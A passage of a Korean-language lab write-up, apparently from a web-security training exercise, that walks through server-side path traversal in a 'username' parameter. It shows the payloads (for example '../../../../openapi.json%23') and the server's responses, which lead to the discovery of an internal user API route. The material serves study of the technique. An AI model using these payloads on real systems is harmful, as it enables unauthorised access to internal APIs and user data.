 ## 2. ./ 경로이동 시도 

1. 서버측 경로에 삽입 되므로 api 경로 이동을 시도 
	 - 삽입 시 정상응답이 나오는 것으로 보아 경로이동이 가능 확인
```
// 경로이동 시도
csrf=hqHpJFf4gjuSNg7stbFSCdLhOHqcIfAI&username=./administrator

-> 정상 응답 
```

2. 더 상위로 이동 시도 
	- ../../../../  는 not found라고 표시된다. 이는 api루트 경로를 벗어나는 것을 의미한다.
```
csrf=hqHpJFf4gjuSNg7stbFSCdLhOHqcIfAI&username=../administrator
->
HTTP/2 404 Not Found
...
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}

// 더 상위로 이동 
csrf=hqHpJFf4gjuSNg7stbFSCdLhOHqcIfAI&username=../../../../administrator
->
HTTP/2 500 Internal Server Error
...
{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}

```

 3. 이경로에서 일반적인  API 파일 경로 접근을 시도해 본다. 
	- openapi.json 접근 시도 
	- /api/internal/v1/users/{username}/field/{field}\ 해당 url이 user의 정보를 조회 할 것으로 유추할 수 있다.
	- 따라서 username 조회 시 field 경로 및 매개변수를 사용할 수 있다.
```
csrf=sPAzGOYmhtSpLKjnNPQAzH7T6NDk8Fu6&username=../../../../openapi.json%23

-> 
{
  "error": 
  "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n   \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```
